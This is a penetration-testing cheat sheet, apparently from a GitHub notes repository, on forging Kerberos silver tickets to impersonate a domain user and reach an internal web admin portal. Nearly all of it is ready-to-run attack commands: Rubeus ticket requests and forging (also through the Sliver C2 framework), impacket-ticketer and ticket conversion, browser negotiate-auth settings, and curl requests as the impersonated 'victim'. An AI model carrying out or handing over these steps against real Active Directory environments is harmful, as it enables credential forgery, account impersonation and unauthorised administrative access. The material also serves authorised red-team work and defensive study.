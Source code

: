 # Silver Ticket

Impersonating a user from a domain group which has access to a web service

## Windows

### 1) Get TGT and see if we can reach the child domain

    .\Rubeus.exe hash /password:password123
    .\Rubeus.exe asktgt /domain:domain.com /user:username /rc4:ffffffffffffffffffffffffffffffff /nowrap /ptt


### 2) Generate silver ticket impersonating victim user from prod domain for http service on machine05

    .\Rubeus.exe silver /service:HTTP/machine05.domain.com /rc4:ffffffffffffffffffffffffffffffff /user:victim /domain:domain.com /nowrap /ptt /ldap


### 3) In sliver

    rubeus -t 30 -- silver /service:HTTP/machine05.domain.com /rc4:ffffffffffffffffffffffffffffffff /user:victim /domain:domain.com /nowrap /ldap /ptt

### 4) Open internet explorer, go into intranet settings and add the domain machine05.domain.com into trusted sites after opening

    &"C:\Program Files\internet explorer\iexplore.exe"


### 5) Open the following urls, we're now victim

    http://machine05.domain.com/Internal/
    http://machine05.domain.com/Internal/Admin

### 6) To try on Browser, convert the base64 contents we got into .ccache format

    echo "doIF5TCCBeGgAwIBBaEDAgDUxMjNaqBMbEURFTktJQUlSLVBST0QuQ09NqS...." | base64 -d > ticket.kirbi
    impacket-ticketConverter ticket.kirbi ticket.ccache
    export KRB5CCNAME=ticket.ccache
    klist


### 7) Open firefox

    firefox


### 8) Set configs

    about:config


### 9) Set the following settings

    network.negotiate-auth.trusted-uris = .domain.com
    network.negotiate-auth.delegation-uris = .domain.com


### 10) Reopen firefox and we should be able to access the Admin portal

    firefox --new-tab http://machine05.domain.com/Internal/Admin


### 11) Within linux, this works

    curl -k http://machine05.domain.com --negotiate -u :
    curl -k http://machine05.domain.com/Internal --negotiate -u :
    curl -k http://machine05.domain.com/Internal/Admin --negotiate -u :

## Linux

### 1) Get victim's ticket

    impacket-ticketer -nthash ffffffffffffffffffffffffffffffff -domain-sid S-1-5-21-3313635286-3087330321-3553712345 -domain domain.com -spn HTTP/machine05.domain.com victim


### 2) Check ticket status

    klist


### 3) We can now impersonate victim

    curl -k --negotiate -u : http://machine05.domain.com/Internal
    curl -k --negotiate -u : http://machine05.domain.com/Internal/Admin
